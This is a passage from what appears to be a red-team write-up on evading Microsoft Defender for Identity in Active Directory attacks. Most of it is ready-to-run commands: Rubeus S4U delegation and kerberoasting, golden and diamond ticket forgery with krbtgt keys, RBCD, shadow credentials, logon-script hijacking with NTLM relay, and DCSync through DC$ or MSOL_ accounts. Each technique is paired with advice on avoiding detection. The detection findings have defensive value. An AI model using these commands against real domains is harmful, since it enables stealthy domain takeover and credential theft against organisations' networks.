canonicalizein KDC options. - Include all 5 supported etypes.
- Remove the
cnamefield. - Set a proper
tillfield (+15min). - Include
enc-authorization-data.
# OPSEC-friendly
Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /show
Rubeus.exe s4u /domain:yhp0w.lan /dc:dc01.yhp0w.lan /user:svc_mhd /aes256:05B2FCE16C6564D6A8BXXXXXXXXXXXXXC3F66FC4F5E376FD8EBB76B8D0 /impersonateuser:Administrator /msdsspn:svc2/srv01.yhp0w.lan /enctype:aes256 /opsec /nowrap /ptt
# Less OPSEC (MDI may detect - undetected in lab)
Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /show
Rubeus.exe s4u /domain:yhp0w.lan /dc:dc01.yhp0w.lan /user:svc_mhd /rc4:F894F8DBE06D4XXXXXXX202F4A5160D /impersonateuser:Administrator /msdsspn:svc2/srv01.yhp0w.lan /enctype:aes256 /opsec /nowrap /ptt

Kerberoasting OPSEC
MDI Detections
MDI detects: - Encryption downgrade to RC4_HMAC (etype 0x17) - Reconnaissance for kerberoastable accounts (LDAP query for users with SPN)
# Detected by MDI - LDAP recon
Get-DomainUser -SPN
Rubeus.exe kerberoast /stats
# Detected by MDI - LDAP recon + encryption downgrade
Rubeus.exe kerberoast
Rubeus.exe kerberoast /user:svc_mhd /simple /rc4opsec


OPSEC Approach
- Fetch all users without filtering by SPN, then identify kerberoastable accounts offline.
- Only kerberoast accounts that do not support AES (to avoid encryption downgrade alerts).
- Request one TGS ticket at a time.
# OPSEC recon - no SPN filter
Get-DomainUser | select samaccountname,serviceprincipalname,msds-supportedencryptiontypes
# OPSEC kerberoasting - specify SPNs explicitly, one at a time
Rubeus.exe kerberoast /spn:SVC2\srv01.yhp0w.lan /simple /nowrap /rc4opsec
Rubeus.exe kerberoast /spns:c:/users/consultant/documents/mhd/spns.txt /simple /nowrap /rc4opsec


Targeted Kerberoasting (GenericWrite)
MDI does not detect modification of ServicePrincipalName or msDS-SupportedEncryptionTypes attributes.
# Downgrade supported encryption to RC4
Set-DomainObject -Identity svc_mhd2 -Set @{'msDS-SupportedEncryptionTypes' = 0}
# Add a fake SPN if none exists
Set-DomainObject -Identity svc_mhd2 -Set @{'servicePrincipalName' = 'http/fake'}
# Kerberoast
Rubeus.exe kerberoast /spn:http/fake /simple /nowrap /rc4opsec


Identity Attack Paths
These attack paths are detected by MDI. No reliable bypass has been identified.
Entra Connect Interactive Logon
MDI detects interactive logon to the Entra Connect server.


RBCD (Resource-Based Constrained Delegation)
MDI detects any modification of the msds-allowedtoactonbehalfofotheridentity attribute.
# RBCD - GenericWrite over a computer account
Import-Module .\PowerView.ps1
$ObjectSid = "S-1-5-21-2498267786-1201464700-2190978386-2104" # SID of attacker-controlled account
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ObjectSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
# Detected by MDI
Get-DomainComputer SRV01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
# Exploit RBCD
Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /show
Rubeus.exe s4u /domain:yhp0w.lan /dc:dc01.yhp0w.lan /user:svc_mhd /rc4:F894F8DBE06D430421B73202F4A5160D /impersonateuser:Administrator /msdsspn:wsman/srv01.yhp0w.lan /enctype:aes256 /opsec /nowrap /ptt
winrs -r:srv01.yhp0w.lan cmd
# Clean up
Get-DomainComputer SRV01 | Set-DomainObject -Clear msds-allowedtoactonbehalfofotheridentity -Verbose


Shadow Credentials
MDI detects any modification of the msds-KeyCredentialLink attribute.
# Shadow Credentials - GenericWrite over an account
certipy-ad shadow auto -u 'svc_mhd@yhp0w.lan' -p 'Open@llP@55' -dc-ip '172.23.126.134' -account 'srv01$'


Logon Script Abuse
MDI does not detect modification of homeDirectory or scriptPath attributes.
# Set malicious logon script
Set-DomainObject -Identity svc_mhd2 -Set @{'homeDirectory' = '\\172.23.126.150\scripts\share'}
Set-DomainObject -Identity svc_mhd2 -Set @{'scriptPath' = '\\172.23.126.150\scripts\logon.exe'}
# Capture with SMB relay
sudo ntlmrelayx.py -t smb://172.23.126.139 -smb2support -socks


DCSync OPSEC
DCSync uses the Directory Replication Service (DRS) to request hash synchronization from a DC. MDI detects it when performed with a regular user account.
MDI Alerts:


Bypass strategies:
- Use a Domain Controller identity (
domain-dc$) - excluded from MDI alerts. - In hybrid identity environments, use the
MSOL_<id>account - AD Connect synchronizes hashes every 2 minutes using this account, and MDI excludes it from alerts.
# OPSEC-friendly - from Linux using DC identity
impacket-secretsdump -dc-ip 172.23.126.134 'yhp0w.lan/dc01$'@dc01.yhp0w.lan -aesKey f6cc80f83cfcfb67177a65d39d43c09c2ed07815e4dea3528e735cdd658b5ab2 -just-dc-user krbtgt
# OPSEC-friendly - from Windows using MSOL_ account
Rubeus createnetonly /program:C:\Windows\System32\cmd.exe /show
Rubeus.exe asktgt /domain:yhp0w.lan /dc:dc01.yhp0w.lan /user:MSOL_9c658791b701 /aes256:7d89e84ba529220ad87a1f7f5760ff729b984a45ab27e893091d641b323a72d9 /enctype:aes256 /opsec /nowrap /ptt
mimikatz.exe "lsadump::dcsync /user:Administrator /dc:dc01.yhp0w.lan /domain:yhp0w.lan" "exit"


Forged Tickets OPSEC
Golden Ticket
Tools like Rubeus or Mimikatz fail to fill or incorrectly fill some PAC fields, generating detectable discrepancies.

Key PAC fields to populate manually:
| Field | Source |
|---|---|
PWD Last Set |
Get-DomainUser <user> |
PWD Must Change |
Get-DomainUser <user> |
Full Name |
Get-DomainUser <user> |
Logon Count |
Get-DomainUser <user> |
User Flags |
Get-DomainUser <user> |
Server |
Domain info |
Type: UPN DNS Info |
Domain info |
NetBIOSName |
See below |
# User fields
Get-DomainUser mhd
# Domain policy fields
Get-DomainPolicy
net accounts /domain
# NetBIOSName
$root = [ADSI]"LDAP://RootDSE"
$domainDN = $root.defaultNamingContext
$searcher = New-Object System.DirectoryServices.DirectorySearcher
$searcher.SearchRoot = [ADSI]"LDAP://CN=Partitions,CN=Configuration,$domainDN"
$searcher.Filter = "(nCName=$domainDN)"
($searcher.FindOne().Properties.netbiosname)[0]
# Or with ADModule:
Get-ADDomain
# More OPSEC-friendly (still detected - no associated AS-REQ)
Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /show
Rubeus.exe golden /aes256:1a0e0713a7666e5bb5dc319b2340f1c85ebfccfccfc3a55de1f019d35e4fa8c4 /dc:dc01.yhp0w.lan /domain:yhp0w.lan /user:mhd /id:2103 /pgid:513 /sid:S-1-5-21-2498267786-1201464700-2190978386 /pwdlastset:"12/13/2024 9:03:11 PM" /logoncount:6 /groups:513,512 /uac:NORMAL_ACCOUNT /maxpassage:42 /minpassage:0 /netbios:YHP0W /opsec /nowrap /ptt
dir \\dc01\c$\users\administrator # Test detection


Always use a valid, active DA account for the golden ticket.
Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /show
Rubeus.exe golden /aes256:1a0e0713a7666e5bb5dc319b2340f1c85ebfccfccfc3a55de1f019d35e4fa8c4 /dc:dc01.yhp0w.lan /domain:yhp0w.lan /user:administrator /id:500 /pgid:513 /sid:S-1-5-21-2498267786-1201464700-2190978386 /pwdlastset:"4/10/2026 4:25:37 PM" /logoncount:79 /groups:513,512 /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /maxpassage:42 /minpassage:0 /startoffset:0 /endin:600 /renewmax:10080 /netbios:YHP0W /opsec /nowrap /ptt
dir \\dc01\c$\users\administrator # Test detection


Diamond Ticket
Rather than forging a new ticket offline, a Diamond Ticket modifies an existing valid TGT - changing group membership, privileges, or lifetime - then re-encrypts it.
"Golden and Silver tickets can usually be detected by probes that monitor TGS requests with no corresponding AS-REQ. Diamond tickets simply request a normal ticket, decrypt the PAC, modify it, recalculate signatures, and re-encrypt it." - The Hacker Recipes
Advantages over Golden Ticket: - Has an associated AS-REQ - avoids the "TGS with no AS-REQ" detection. - PAC is based on a real ticket - less likely to fail PAC validation.
# OPSEC-friendly diamond ticket
Rubeus createnetonly /program:C:\Windows\System32\cmd.exe /show
Rubeus.exe diamond /krbkey:1a0e0713a7666e5bb5dc319b2340f1c85ebfccfccfc3a55de1f019d35e4fa8c4 /user:consultant /aes256:0d87626e50a46ac45dfc302c10eabb815d5dd5cac96340fe9b91694bf9272f32 /dc:dc01.yhp0w.lan /domain:yhp0w.lan /enctype:aes256 /ticketuserid:1118 /groups:512,513 /opsec /nowrap /ptt
# OPSEC-friendly diamond ticket - impersonating another user
Rubeus createnetonly /program:C:\Windows\System32\cmd.exe /show
Rubeus.exe diamond /krbkey:1a0e0713a7666e5bb5dc319b2340f1c85ebfccfccfc3a55de1f019d35e4fa8c4 /user:consultant /aes256:0d87626e50a46ac45dfc302c10eabb815d5dd5cac96340fe9b91694bf9272f32 /dc:dc01.yhp0w.lan /domain:yhp0w.lan /enctype:aes256 /ticketuser:Administrator /ticketuserid:500 /pgid:513 /pwdlastset:"12/13/2024 9:03:11 PM" /logoncount:73 /groups:513,512 /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /minpassage:0 /maxpassage:42 /netbios:YHP0W /opsec /nowrap /ptt
dir \\srv01\c$\users\administrator\ # Test detection
Child-to-Forest Trust Abuse
Forge a ticket with the sIDHistory of the Enterprise Domain Controllers group using the child domain's krbtgt. The parent domain trusts the TGT via the inter-domain trust.
Golden Ticket - Child to Forest
# /sid - child domain SID
# /sids - parent domain SID + RID 516 (Domain Controllers)
# S-1-5-9 - Enterprise Domain Controllers
Rubeus.exe golden /aes256:5E3D2096ABB01469A3B0350962B0C65CEDBBC611C5EAC6F3EF6FC1FFA58CACD5 /user:us-dc$ /id:1001 /pgid:516 /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /pwdlastset:"10/15/2025 12:59:02 AM" /minpassage:1 /logoncount:4 /netbios:us.techcorp /groups:516 /sids:S-1-5-21-2781415573-3701854478-2406986946-516,S-1-5-9 /dc:us-dc.us.techcorp.local /uac:SERVER_TRUST_ACCOUNT,TRUSTED_FOR_DELEGATION /enctype:aes256 /opsec /nowrap
Diamond Ticket - Child to Forest
Rubeus.exe diamond /krbkey:5E3D2096ABB01469A3B0350962B0C65CEDBBC611C5EAC6F3EF6FC1FFA58CACD5 /user:us-dc$ /aes256:aa97635c942315178db04791ffa240411c36963b5a5e775e785c6bd21dd11c24 /enctype:aes256 /domain:us.techcorp.local /dc:us-dc.us.techcorp.local /ticketuserid:1000 /sids:S-1-5-21-2781415573-3701854478-2406986946-516,S-1-5-9 /opsec /nowrap
Conclusion
| Category | MDI Detects | OPSEC Approach |
|---|---|---|
| Recon | Noisy BloodHound LDAP collection | Use SOAPHound / ShadowHound over ADWS (Port 9389) |
| Kerberoasting | RC4 encryption downgrade + LDAP SPN recon | Enumerate users without SPN filter; request RC4 only for non-AES accounts |
| AS-REQ | Missing pre-auth step, RC4 encryption, wrong KDC options | Use /opsec + AES256 in Rubeus |
| TGS-REQ | Missing PA-PAC-OPTIONS, wrong etypes/fields | Use /opsec + AES256 + multiple service tickets |
| DCSync | Regular user performing DRS replication | Use DC$ identity or MSOL_ account (hybrid AD) |
| Golden Ticket | Forged PAC discrepancies, TGS with no AS-REQ | Populate all PAC fields manually; prefer Diamond Ticket |
| Diamond Ticket | Lower detection than Golden - inherits real AS-REQ | Preferred over Golden Ticket |
| RBCD / Shadow Creds | Attribute modification always detected | No reliable bypass identified |
Core rule: Avoid talking to the DC directly. When you must, emulate genuine Kerberos traffic (AES256, correct fields, multi-ticket requests).
To Do / Further Research
Claims to verify - untested in the lab.
- MDI detects coercing with MS-DFSNM
- OPSEC AS-REProasting: offline recon for accounts with pre-auth disabled + one AS-REProast at a time
- Silver tickets - MDI detection status?
- MDI detects ESC1–17?
References
- https://learn.microsoft.com/en-us/defender-for-identity/what-is
- https://github.com/0xe7/Talks/tree/main
- https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/diamond
- https://trustedsec.com/blog/adexplorer-on-engagements
- https://learn.microsoft.com/en-us/sysinternals/downloads/adexplorer
- https://blog.fndsec.net/2024/11/25/shadowhound/
- https://github.com/c3c/ADExplorerSnapshot
- https://github.com/FalconForceTeam/SOAPHound
- https://github.com/Friends-Security/ShadowHound
- https://github.com/coffeegist/bofhound
- https://techcommunity.microsoft.com/blog/coreinfrastructureandsecurityblog/decrypting-the-selection-of-supported-kerberos-encryption-types/1628797
- https://www.thehacker.recipes/ad/movement/dacl/logon-script
- https://blog.cyberadvisors.com/technical-blog/blog/bypassing-microsoft-defender-for-identity-detections
- https://files.brucon.org/2022/0wn-premises%20Bypassing%20Microsoft%20Defender%20for%20Identity.pdf
- https://techcommunity.microsoft.com/blog/microsoftthreatprotectionblog/protect-and-detect-microsoft-defender-for-identity-expands-to-entra-connect-serv/4226165